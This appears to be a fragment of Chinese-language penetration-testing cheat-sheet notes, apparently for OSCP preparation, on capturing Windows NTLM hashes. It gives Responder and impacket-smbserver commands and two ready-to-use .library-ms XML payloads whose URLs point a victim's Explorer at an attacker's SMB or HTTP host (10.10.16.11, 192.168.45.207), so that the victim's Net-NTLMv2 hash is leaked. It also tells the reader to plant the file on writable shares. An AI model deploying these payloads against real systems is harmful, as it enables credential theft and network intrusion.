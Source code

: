 强制 Responder 重新捕获哈希

```bash
sudo responder -I tun0 -f -v
```



# Impacket-smbserver

```bash
# 既可以用来充当smb服务器，也可以捕获hash。
impacket-smbserver -smb2support share .
```



# .library-ms

.library-ms文件可以用来窃取Netv2 Hash，一般和类似responder的工具配合使用。.library-ms文件除了直接上传到可写的共享目录，还可以将其打包成压缩包zip再上传。

```xml
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
  <searchConnectorDescriptionList>
    <searchConnectorDescription>
      <simpleLocation>
        <url>\\10.10.16.11\pwn</url>
      </simpleLocation>
    </searchConnectorDescription>
  </searchConnectorDescriptionList>
</libraryDescription>
```

Oscp官方教程提供.Library-ms的payload

```xml
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<name>@windows.storage.dll,-34582</name>
<version>6</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://192.168.45.207</url>   ###修改为kali
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>
```
